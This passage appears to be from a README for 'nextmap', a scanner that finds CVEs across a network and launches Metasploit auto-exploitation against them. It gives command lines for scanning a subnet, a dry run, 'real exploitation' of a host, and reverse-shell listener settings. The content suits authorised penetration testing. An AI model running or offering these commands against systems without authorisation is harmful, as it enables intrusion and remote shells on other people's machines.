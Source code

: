 ### Full Workflow Example

```bash
# 1. Comprehensive scan with CVE detection
nextmap --target 10.0.0.0/24 -p top5000 -s -O --cve-scan -f scan_results.json

# 2. Review vulnerabilities
cat scan_results.json | jq '.hosts[].vulnerabilities'

# 3. Auto-exploit with Metasploit (dry-run first!)
nextmap --target 10.0.0.0/24 -p top5000 -s --cve-scan --msf-exploit --msf-dry-run --msf-lhost 10.0.0.100

# 4. Execute real exploitation (after approval)
nextmap --target 10.0.0.50 -p 445 -s --cve-scan --msf-exploit --msf-lhost 10.0.0.100
```

### Custom Metasploit Path

```bash
# Windows custom path
nextmap --target 192.168.1.1 -s --cve-scan --msf-exploit --msf-path "C:\metasploit-framework\bin\msfconsole.bat" --msf-lhost 192.168.1.100

# Linux custom path
nextmap --target 192.168.1.1 -s --cve-scan --msf-exploit --msf-path "/opt/metasploit/msfconsole" --msf-lhost 192.168.1.100
```

---

## 🔧 CLI Options

### Metasploit-Specific Flags

| Option | Description | Default | Required |
|--------|-------------|---------|----------|
| `--msf-exploit` | Enable Metasploit auto-exploitation | `false` | No |
| `--msf-lhost` | Your IP address for reverse shells | Auto-detect | Recommended |
| `--msf-lport` | Port for reverse shells | `4444` | No |
| `--msf-dry-run` | Preview exploits without executing | `false` | No |
| `--msf-path` | Custom msfconsole path | Auto-detect | No |

### Required Flags for Exploitation

```bash
--cve-scan         # CVE detection MUST be enabled
--msf-exploit      # Enable exploitation
--msf-lhost <IP>   # Your listener IP (auto-detected if omitted)
```

---